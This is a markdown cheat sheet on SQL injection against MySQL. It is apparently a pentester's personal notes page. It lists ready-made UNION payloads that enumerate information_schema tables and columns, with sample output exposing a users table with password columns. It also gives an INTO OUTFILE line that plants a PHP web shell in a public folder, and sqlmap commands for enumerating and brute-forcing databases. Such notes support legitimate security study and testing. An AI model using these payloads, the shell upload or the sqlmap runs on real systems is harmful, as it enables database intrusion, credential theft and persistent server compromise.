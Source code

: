 ```yaml
---
title: "sql injection"
date: 2020-03-06T13:02:27+01:00
draft: false
weight: 60
---
```


## External stuff

[exploit-db](https://www.exploit-db.com/papers/13045/) [ASCII table](https://github.com/justin-p/sec-stuff/blob/master/general%20info/ascii-table.md)

### Always True

1=1 a=a

### Escape/stop

#### mysql 

```sql
# 
-- 
#--
```

### MySQL Verison

select version\(\)

### information Schema

#### Table names

```sql
SELECT table_schema,table_name FROM information_Schema.tables

SELECT CONCAT(table_schema,table_name) FROM information_Schema.tables

SELECT CONCAT(table_schema,char(58),table_name) FROM information_Schema.tables
```

#### Injection example 1

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 ORDER BY table_name LIMIT 0,1) #--
```

```text
dummymalex:dummyms
table_schema = dummymalex
table_name   = dummyms
```

#### Hide stuff we dont need

```sql
AND table_schema != 'information_schema'
```

#### Injection example 2

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 AND table_schema != 'information_schema' ORDER BY table_name LIMIT 0,1) #--
```

```text
LIMIT 0,1
dummymalex:dummyms 
table_schema = dummymalex
table_name   = dummyms 

LIMIT 1,1 
dummymalex:users     
table_schema = dummymalex
table_name   = users
```

#### column\_name

```sql
SELECT column_schema,column_name FROM information_Schema.columns
```

#### Injection Example 1

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='dummyms' LIMIT 0,1) #--
```

```text
LIMIT 0,1
ID

LIMIT 1,1
dummyms

LIMIT 2,1
description
```

#### Injection Example 2

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='users' LIMIT 0,1) #--
```

```text
LIMIT 0,1
ID

LIMIT 1,1
username

LIMIT 2,1
password
```

### upload shell with INTO OUTFILE

```sql
select 'SHELLCODE' INTO OUTFILE '/path/to/public/folder/shell.php';
```

## SQLmap

### Simple usage

```
sqlmap -u "http://target_server/"
```

### Set target DBMS to MySQL
```
sqlmap -u "http://target_server/" --dbms=mysql
```

### Use POST requests

```
sqlmap -u "http://target_server/" --data=param1=value1&param2=value2
```

### Use POST request file

```
sqlmap -r request.txt -p [param-to-test]
```

### Batch run

```
sqlmap -r request.txt -p [param-to-test] --Batch
```

### Set Risk/Level

```
sqlmap -r request.txt -p psw --level=5 --risk=3 --dbms mysql --batch
```

### enumerate databases

```
sqlmap -r request.txt --batch --dbs
``` 

### enumerate tables

``` 
sqlmap -r request.txt -batch --tables
``` 

### brute-force tables

```
sqlmap -r request.txt -batch --common-tables
```

### brute-force columns

```
sqlmap -r request.txt -batch -T users --common-column
```